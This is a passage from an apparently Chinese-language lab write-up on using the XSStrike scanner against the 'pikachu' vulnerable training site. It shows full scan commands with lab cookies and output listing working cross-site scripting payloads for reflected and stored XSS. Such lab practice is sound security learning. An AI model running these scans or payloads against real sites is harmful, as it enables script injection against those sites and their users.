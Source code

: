 ```shell
 ~] Progress: 29/1148740
```

mtxMessage 这个参数发现了 770 个注入点，给我都整不自信了，查了一下是不是我给翻译错了，国民党报战功都不敢像你这么报。而且一百万的 payload 给我搁这搞 DOS 呢？

***
再测试一下 pikachu 这个靶场，使用的模块是 反射型xss(post) 和 存储型xss。

首先来看 反射型xss(post) 这个模块，要先登录上去，再手工随便填点东西提交，然后开发者工具获取 url 和请求参数和 cookie。

```shell
┌──(kali㉿kali)-[~/XSStrike]
└─$ python3 xsstrike.py -u "http://192.168.127.200:9000/vul/xss/xsspost/xss_reflected_post.php" --data "message=nobody&submit=submit" --headers "Cookie: ant[uname]=test; ant[pw]=1fb586718403e6b398655502d2114f5ac27badd1; PHPSESSID=pq1qcitrhgdo0b9p7uj19vf21q; security=impossible" --skip-dom

[+] WAF Status: Offline
[!] Testing parameter: message
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3072

------------------------------------------------------------
[+] Payload: <d3v%09OnmOuseoVEr+=+confirm()>v3dm0s
[!] Efficiency: 91
[!] Confidence: 10
------------------------------------------------------------
......
 ~] Progress: 3072/3072
[!] Testing parameter: submit
[-] No reflection found
```

用 hackbar 插件提交post 请求，payload 基本都能用。

再来看看 存储型xss，照样是手工提交，获取 url、请求参数和 cookie。

```shell
┌──(kali㉿kali)-[~/XSStrike]
└─$ python3 xsstrike.py -u "http://192.168.127.200:9000/vul/xss/xss_stored.php" --data "message=%E7%95%99%E4%B8%AA%E7%9B%90&submit=submit" --skip-dom --headers "Cookie: PHPSESSID=pq1qcitrhgdo0b9p7uj19vf21q; security=impossible"

        XSStrike v3.1.5

[+] WAF Status: Offline
[!] Testing parameter: message
[!] Reflections found: 2
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3071
------------------------------------------------------------
[+] Payload: <htMl%0dONPoIntERENTEr+=+(prompt)``>
[!] Efficiency: 100
[!] Confidence: 10
```
